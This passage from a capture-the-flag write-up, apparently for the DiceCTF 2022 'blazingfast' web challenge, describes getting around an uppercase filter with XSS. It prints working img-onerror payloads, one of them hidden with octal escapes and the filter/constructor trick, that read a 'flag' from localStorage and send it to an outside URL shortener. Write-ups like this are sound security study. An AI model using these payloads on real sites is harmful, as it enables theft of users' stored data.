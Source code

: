 After having some tries on figuring out how to overcome the uppercase characters, RazviOverflow came across a great idea for the URL, using a URL shortener:

```html
https://blazingfast.mc.ax/?demo=.....<img src=x onerror="location.href='http://tiny.cc/70pouz?c='+localStorage.getItem('flag')">
```

Still didn't work, since location.href or other methos like this.src didn't work out in uppercase, therefore we still need a bypass for that.

Looking for a solution we tried using some octal bypasses:

```html
https://blazingfast.mc.ax/?demo=.....<img src=x onerror=[][filter][constructor](location.href='http://tiny.cc/70pouz?c='+localStorage.getItem('flag'))()>
```
To octal:

```html
https://blazingfast.mc.ax/?demo=.....<img src=x onerror=[]["\146\151\154\164\145\162"]["\143\157\156\163\164\162\165\143\164\157\162"]("\154\157\143\141\164\151\157\156\56\150\162\145\146\75\47\150\164\164\160\72\57\57\164\151\156\171\56\143\143\57\67\60\160\157\165\172\77\143\75\47\53\154\157\143\141\154\123\164\157\162\141\147\145\56\147\145\164\111\164\145\155\50\47\146\154\141\147\47\51")()>
```

Then we bypassed the uppercase filter and got our local exploit using the URL parameter and changing the payload length:

<p align="center">
    <img src="/images/writeups/DiceCTF2022/Web/2_02.png" width="70%"/>
</p>
